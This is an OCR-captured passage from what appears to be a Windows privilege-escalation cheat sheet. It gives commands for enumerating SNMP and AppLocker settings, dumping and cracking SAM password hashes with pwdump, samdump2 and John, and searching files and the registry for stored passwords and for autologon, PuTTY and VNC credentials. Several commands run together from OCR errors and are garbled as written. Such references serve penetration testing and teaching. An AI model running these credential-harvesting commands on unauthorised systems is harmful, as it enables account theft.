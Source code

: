 SNMP Configuration

    reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /sGet-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse

## AppLocker Enumeration

- With the GPO
- HKLM2 (Keys: Appx, Dll, Exe, Msi and Script).

## EoP - Looting for passwords

### SAM and SYSTEM files

The Security Account Manager (SAM), often Security Accounts Manager, is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

    # Usually %SYSTEMROOT% = C:\Windows%SYSTEMROOT%\repair\SAM%SYSTEMROOT%\System32\config\RegBack\SAM%SYSTEMROOT%\System32\config\SAM%SYSTEMROOT%\repair\system%SYSTEMROOT%\System32\config\SYSTEM%SYSTEMROOT%\System32\config\RegBack\system

Generate a hash file for John using `pwdump` or `samdump2`.

    pwdump SYSTEM SAM > /root/sam.txtsamdump2 SYSTEM SAM -o sam.txt

Then crack it with `john -format=NT /root/sam.txt`.

### Search for file contents

    cd C:\ & findstr /SI /M "password" *.xml *.ini *.txtfindstr /si password *.xml *.ini *.txt *.configfindstr /spin "password" *.*

### Search for a file with a certain filename

    dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*where /R C:\ user.txtwhere /R C:\ *.ini

### Search the registry for key names and passwords

    REG QUERY HKLM /F "password" /t REG_SZ /S /KREG QUERY HKCU /F "password" /t REG_SZ /S /Kreg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologinreg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parametersreg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentialsreg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentialsreg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v passwordreg query HKLM /f password /t REG_SZ /sreg query HKCU /f password /t REG_SZ /s

### Read a value of a certain sub key

    REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList
